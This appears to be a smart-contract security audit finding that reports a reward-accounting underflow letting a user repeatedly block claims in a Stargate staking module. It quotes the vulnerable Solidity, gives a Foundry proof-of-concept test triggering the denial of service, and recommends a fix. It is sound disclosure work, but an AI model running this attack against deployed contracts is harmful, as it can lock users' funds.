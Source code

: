 Modern Punch Carp

high

# DOS of StakedStargateAM

## Summary

A problem with the way accrued rewards for different positions are accounted for allows a malicious user to continuously put the contract in a state where the main functions revert.

## Vulnerability Detail

First, I will examine how the function [pendingEmissionToken()](https://basescan.org/address/0x06Eb48763f117c7Be887296CDcdfad2E4092739C#code#F1#L122) from LPStakingTime.sol calculates the accrued rewards from the users. This is done by calculating the total rewards generated for the period from the last calculation to the specific moment and dividing it by the total number of tokens. The resulting value in the variable accEmissionPerShare is multiplied by the amount of tokens for the specific user, and the result is subtracted from the variable rewardDebt. The variable rewardDebt shows the accrued rewards at the time of the last deposit or withdraw operation. During each of these operations, the accrued rewards are first paid out, and then the change in balance is stored. Therefore, immediately after deposit/withdraw, the value returned by pendingEmissionToken() will be 0.

```solidity
    function _getRewardBalances(AssetState memory assetState_, PositionState memory positionState_)
        internal
        view
        returns (AssetState memory, PositionState memory)
    {
        if (assetState_.totalStaked > 0) {
            // Calculate the new assetState
            // Fetch the current reward balance from the staking contract.
            uint256 currentRewardGlobal = _getCurrentReward(positionState_.asset);
            // Calculate the increase in rewards since last Asset interaction.
            uint256 deltaReward = currentRewardGlobal - assetState_.lastRewardGlobal;
            uint256 deltaRewardPerToken = deltaReward.mulDivDown(1e18, assetState_.totalStaked);
            // Calculate and update the new RewardPerToken of the asset.
            // unchecked: RewardPerToken can overflow, what matters is the delta in RewardPerToken between two interactions.
            unchecked {
                assetState_.lastRewardPerTokenGlobal =
                    assetState_.lastRewardPerTokenGlobal + SafeCastLib.safeCastTo128(deltaRewardPerToken);
            }
            // Update the reward balance of the asset.
            assetState_.lastRewardGlobal = SafeCastLib.safeCastTo128(currentRewardGlobal);
           ...
```

The functions mint, increaseLiquidity, decreaseLiquidity, claimReward from AbstractStakingAM use the function _getRewardBalances to determine the rewards for a given position. For this report, the variables assetState_.lastRewardGlobal and currentRewardGlobal are important. currentRewardGlobal is the result of calling pendingEmissionToken, while assetState_.lastRewardGlobal is the value of currentRewardGlobal from the previous iteration. On line 539, the value of assetState_.lastRewardGlobal is subtracted from the value of currentRewardGlobal. The problem is that, as mentioned earlier, the value of currentRewardGlobal (the returned value from pendingEmissionToken()) can be 0. It turns out that there are situations where at the same time assetState_.lastRewardGlobal will not be 0. Due to underflow, all functions calling _getRewardBalances will revert until the value of currentRewardGlobal exceeds the value of assetState_.lastRewardGlobal. This happens when enough rewards accumulate over time.

It turns out that a malicious user can intentionally bring the contract to such a state that the functions constantly revert. This happens when the mint or increaseLiquidity function is called when there are accumulated rewards. Unlike decreaseLiquidity and claimReward, these functions do not reset assetState_.lastRewardGlobal, as they should to avoid this problem.

I am attaching a POC that demonstrates how using the described vulnerability, a DOS attack can be performed for more than 15 days. After accumulating enough rewards, the operation can be repeated for another DOS and so on.

```solidity
// you should put the test into USDbCPool.fork.t.sol
function test_dos_poc() public 
    {
        uint256 initBalance = 1000 * 10 ** USDbC.decimals();

        vm.startPrank(users.accountOwner);
        deal(address(USDbC), users.accountOwner, initBalance*2);

        USDbC.approve(address(router), initBalance*2);
        router.addLiquidity(poolId, initBalance, users.accountOwner);

        // And : The user stakes the LP token via the StargateAssetModule
        uint256 stakedAmount = ERC20(address(pool)).balanceOf(users.accountOwner);
        ERC20(address(pool)).approve(address(stakedStargateAM), stakedAmount);
        uint256 tokenId = stakedStargateAM.mint(address(pool), uint128(stakedAmount));

        vm.stopPrank();

        address addrUser2 = createUser("user2");
        vm.startPrank(addrUser2);
        deal(address(USDbC), addrUser2, initBalance);
        USDbC.approve(address(router), initBalance);
        router.addLiquidity(poolId, initBalance, addrUser2);
        stakedAmount = ERC20(address(pool)).balanceOf(addrUser2);
        ERC20(address(pool)).approve(address(stakedStargateAM), stakedAmount);
        uint256 tokenId2 = stakedStargateAM.mint(address(pool), uint128(stakedAmount));


        address addrUser3 = createUser("user3");
        vm.startPrank(addrUser3);
        deal(address(USDbC), addrUser3, initBalance);
        USDbC.approve(address(router), initBalance);

        vm.warp(block.timestamp + 30 days);

        router.addLiquidity(poolId, initBalance, addrUser3);
        uint256 stakedAmount2 = ERC20(address(pool)).balanceOf(addrUser3);
        ERC20(address(pool)).approve(address(stakedStargateAM), stakedAmount2);
        stakedStargateAM.mint(address(pool), uint128(stakedAmount2));

        vm.stopPrank();

        vm.warp(block.timestamp + 15 days);

        vm.startPrank(users.accountOwner);
        vm.expectRevert();
        stakedStargateAM.claimReward(tokenId);
        vm.stopPrank();
    }
```

## Impact

Malicious user may cause a permanent DOS of the contract. Also such state may be triggered unintentionally by a user. Lock of funds. 

## Code Snippet

Above

## Tool used

Manual Review

## Recommendation

Set assetState_.lastRewardGlobal = 0 in mint() and increaseLiquidity() similar to the other functions.

